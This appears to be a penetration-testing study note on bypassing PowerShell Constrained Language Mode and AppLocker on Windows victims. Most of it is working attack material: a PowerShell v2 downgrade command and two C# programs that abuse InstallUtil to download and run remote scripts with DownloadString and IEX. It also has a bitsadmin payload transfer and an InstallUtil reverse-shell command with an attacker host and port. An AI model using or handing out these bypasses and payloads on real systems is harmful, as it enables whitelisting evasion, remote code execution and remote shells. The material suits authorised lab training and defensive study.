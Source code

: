 # You have no Power(Shell) here muahaha

![](../Assets/abraxas-lotr.gif)

Alright you are in. You run the below command to check if you can Powershell

```powershell
$ExecutionContext.SessionState.LanguageMode
```

![](../Assets/clm.png)

## Quick Explanation on CLM

- CLM is activated when AppLocker is active against script execution
- Under CLM, any scripts in whitelisted locations or complying with whitelisting rules execute with no restrictions
- However, if a script does not comply with the rules or commands are entered directly on the command line, there are restrictions on calls on .NET, C# execution and reflection

## Bypassing CLM - Downgrading to PowerShell V2

PowerShell V2 lacks AMSI and all the fancy protective measures that came after it.
If the victim is Windows 10 and above, this will likely not work since the .NET Framework v2 is not included by default and thus you can't run PowerShell v2.

But just in case there is PowerShell V2

```cmd
powershell.exe -Version 2.0 -Command {<scriptblock>} -ExecutionPolicy <ExecutionPolicy>
```

## Bypassing CLM - Custom Runspaces

- Executing powershell without using Powershell.exe which can bypass AppLocker restrictions on Powershell.exe
- As this will be compiled as an executable, we can abuse InstallUtil to execute our bypass
- Compile this as a C# Console App (.NET Framework) on Visual Studio

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
	class Program
	{
		static void Main(string[] args)
		{
			Console.WriteLine("This is the main method which is a decoy");
		}
	}
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            // change the command to whatever you want. Do note that the Out-File seems to be required in order to read the output because there doesnt seem to be any output to console
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://<evil ip>/powerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```

Once compiled, you can use bitsadmin to download the executable onto the victim
For some reason, python http.server dont seem to gel well with bitsadmin. So host the file on an apache2 server

myJob is just a name. Can name it anything you want

```cmd
bitsadmin /Transfer myJob http://<evil ip>/file.txt <output path>
```

Search for InstallUtil (may not be on PATH) on the Windows system
```cmd

dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\evil.exe
```

## Bypassing CLM - Open Source Tools

There are at least two tools I found recommended by OffSec Student Mentors in the Discord channel. Seems to work fine and obviously a lot easier!

### Tool 1 : PSByPassCLM

https://github.com/padovah4ck/PSByPassCLM

**Usage**

Fairly simple. Compile the C# code. Transfer to victim and use InstallUtil to execute it. You can also rename your executable to any file format as InstallUtil parses everything

There are two broad modes:

1) Create a "PowerShell Session"

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

2) Reverse Shell

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

### Tool 2: Bypass-CLM

https://github.com/calebstewart/bypass-clm/tree/master





```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;
 
namespace test
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }
 
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.54/amsi.txt') | IEX;";
            String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.54/script.txt') | IEX | Out-File -FilePath C:\\windows\\tasks\\output.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            Console.WriteLine("Test1");
 
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd1);
            try
            {
                ps.Invoke();
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            ps.AddScript(cmd2);
            try
            {
                ps.Invoke();
            }
            catch (Exception e)
            {
                Console.WriteLine("{0} Exception caught.", e);
            }
            rs.Close();
        }
    }
}
```